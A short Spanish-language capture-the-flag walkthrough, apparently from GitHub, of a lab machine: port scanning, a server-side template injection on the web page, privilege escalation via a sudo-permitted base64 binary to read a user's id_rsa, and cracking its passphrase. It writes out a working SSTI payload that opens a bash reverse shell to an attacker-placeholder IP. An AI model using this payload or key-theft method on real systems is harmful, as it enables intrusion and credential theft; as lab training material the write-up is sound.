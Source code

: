 1- Ping y NMAP

<img width="578" height="518" alt="image" src="https://github.com/user-attachments/assets/e9297933-3467-4ffc-9b7a-2b791e79f1f4" />

2- Accedemos via http y vemos una pagina, es vulnerable a ssti

pegamos esto y nos ponemos en escucha 

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/TUIP/443 0>&1\'').read() }}

<img width="225" height="53" alt="image" src="https://github.com/user-attachments/assets/2366c5a3-b7ea-415e-bc29-3440bd93b89f" />

<img width="680" height="143" alt="image" src="https://github.com/user-attachments/assets/c63fcb69-8ca5-49f5-9890-fecff1f2c70e" />

Sudo -l y vemos que es vulnerable a base64, buscamos GTFOBins y tratamos de escalar.

Lo unico que se me ha ocurrido es copiar su clave id_rsa

<img width="577" height="390" alt="image" src="https://github.com/user-attachments/assets/147f11af-07e9-4d24-af7a-0432e2474f7c" />

<img width="643" height="250" alt="image" src="https://github.com/user-attachments/assets/236b5a69-58b5-42dc-bcb8-d6137aa676bb" />

La desciframos y provamos de entrar con esta contraseña que nos ha dado.

<img width="286" height="98" alt="image" src="https://github.com/user-attachments/assets/f4ecbb24-5d0e-4c1d-b489-1f8def0e7c56" />

<img width="828" height="234" alt="image" src="https://github.com/user-attachments/assets/d684caeb-7cb2-4193-a51f-8dce9566d608" />


